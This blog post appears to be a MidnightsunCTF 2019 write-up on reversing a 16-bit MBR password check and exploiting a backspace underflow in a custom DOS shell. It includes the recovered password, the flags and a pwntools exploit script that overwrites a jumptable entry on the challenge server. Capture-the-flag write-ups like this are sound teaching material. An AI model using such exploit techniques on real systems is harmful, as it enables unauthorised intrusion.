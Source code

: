 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF 2019 qualifier
tags: 
    - kowu
---
```


# Stage1: Getting Past The Password Auth (hfs-mbr)

I used IDA in remote debug mode during the CTF, but it was somehow buggy and an overall painful experience for me.
Writeup using radare2 (even though, what a surprise, their 16 bit remote debugger seems to be currently kind of broken as well).

```
r2 -b16 dos.img
```

At offset `0000:0637` we find the main password loop of the program.

![m1](/assets/img/midnight_hfsdos1.png)

A single character is read, then a check is performed if the character is in the range of [a-z].
If it is, the char is converted into numbers ranging from 0 to 25. Afterwards the number is multiplied by 2 and serves as the index of a jumptable.
E.g. depending on the index a different function is called (jmp ax).

We can find the called functions below, starting at `0000:0662`. Luckily they were in oder, e.g. the first jumptable function belongs to the character 'a', the second to 'b', etc.

![m11](/assets/img/midnight_hfsdos11.png)

Most of the functions are dummy ones, effectively doing nothing. But some of them contain some checks, and depending on the outcome a different path is choosen.
The 0x7d9 path is the one we don't want to take. 0x7ce Is the way to go because it increments a counter for the amount of 'correct chars' (0x81bb), while the other one just increments the 'total chars' (0x81ba).
If after 9 input bytes both counters are equal, the password is correct.

So the objective is clear, we have to find the correct order of all jumptable functions.

Effectively all jumptable functions are doing the same, however they are more or less "obfuscated".
1. They take the number of 'total chars' and xor it with the current input character (`xor dl, byte [0x81ba]`).
2. They compare the resulting value with a fixed one, and take the good branch if correct


So I just deobfuscated all functions and noted the value they compare the input with. E.g. the function for char 'e' can be seen at `0000:0686`.
1. The first ax assignment is useless because of the follow up `xor ax, ax` (ax = 0)
2. 6 times adding 0x10 to ax is equal to ax = 0x60
3. Therefore 0x60 is subtracted from our xored charcode, and if the result is 2 we are good. This equation is fulfilled for xored charcode == 0x62.

I now did this for all functions and wrote a python script to resolve the correct order.

```python
chars = {'e': 0x62, 'j': 0x68, 'n': 0x68, 'o': 0x6e, 'p': 0x74, 'r': 0x7a, 's': 0x73, 'u': 0x76, 'w': 0x72}
pw = ''
n = 0
for _ in range(len(chars)):
    for c in chars:
        if (ord(c) ^ n) == chars[c]:
            pw += c
            n += 1
print(pw)
```
we get `sojupwner`, wich leads us to the first flag `midnight{w0ah_Sh!t_jU5t_g0t_REALmode}` and gives us access to stage2.
We are now dropped into a custom written "shell" (COMMAND.COM).

# Stage2: Pwning The Shell (hfs-dos)


First of all, I extracted the COMMAND.COM binary out of the raw image.
```
fdisk -l dos.img
```
```
Disk dos.img: 10 MiB, 10485760 bytes, 20480 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000

Device     Boot Start   End Sectors  Size Id Type
dos.img1   *       63 20159   20097  9.8M  1 FAT12
```
We can see that the FAT12 Filesystem starts at offset 63, and the sector size is 512. Therefore we setup the loop device for an offset of 63*512.
```
losetup /dev/loop0 dos.img -o 32256
```
Now we can mount and comfortably read the filesystem.
```
mount /dev/loop0 /mnt
```
Extract the COMMAND.COM and throw it into IDA or radare2.

The bug was pretty easy to spot as well, even found it bevore even looking at the disassembly. Deleting a character by using backspace had no lower bounds check.
With this we could owerwrite jumptable entries for console commands as they were placed directly above the input buffer.
By entering an overwritten command we now could now jump arbitrary.

![m2](/assets/img/midnight_hfsdos2.png)

An other thing I used to exploit is, that the shell reads and prints the flag for stage1 in the beginning.
And the Filename of Flag1 was right above us as well. Therefore my attack was as follows:

1. Overwrite the filename of the first flag (FLAG1) so it becomes FLAG2
2. Overwrite a jumptable entry of some console command with the address of the "print flag" function.
3. Trigger by executing the overwritten command ("pong" in my case)

```python
from pwn import *

# setup and stage1
r = remote('hfs-os-01.play.midnightsunctf.se', 31337)
r.recvuntil('MBR]>')
r.sendline('sojupwner')
r.send('ping')
r.recvuntil('PONG')

# actual exploit
r.send('\x7f' * 3 + '2\x0d')
r.send('\x7f' * 11 + struct.pack('<H', 0x14f) + '\x0d')
r.send('pong')
r.interactive()
```

we get `midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`.